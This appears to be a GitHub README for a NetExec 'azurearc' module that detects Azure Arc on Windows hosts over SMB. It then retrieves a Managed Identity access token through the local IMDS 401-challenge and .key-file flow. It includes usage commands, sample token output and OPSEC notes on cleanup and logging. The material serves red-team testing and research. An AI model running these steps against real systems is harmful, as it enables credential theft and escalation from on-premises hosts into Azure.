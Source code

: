 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

#### 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*  
C:\Program Files (x86)\AzureConnectedMachineAgent\*

### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...\
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"\
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.\
Write JSON to OUTFILE, fetch via SMB, and delete the file.



### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).\
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud\
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

